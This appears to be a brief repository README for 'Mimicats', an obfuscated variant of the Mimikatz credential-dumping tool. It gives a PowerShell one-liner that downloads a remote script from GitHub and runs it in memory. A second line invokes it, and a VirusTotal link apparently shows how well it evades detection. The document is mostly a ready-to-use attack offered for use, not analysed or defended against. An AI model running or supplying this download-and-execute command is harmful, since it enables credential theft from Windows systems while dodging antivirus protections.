 # Mimicats
**Mimikatz obfuscation**

Command Windows Powershell:
```
Invoke-Expression (New-Object Net.Webclient).downloadstring('https://raw.githubusercontent.com/Moon1705/mimicats/master/Mimicats.ps1')
Invoke-Cats -Command '"command"'
```
Report [VirusTotal](https://www.virustotal.com/gui/file/65505a6fa6b1e9921d2270821370c9b6156dce36c1a6f1f72dd7aec3e6c5cb46/detection)
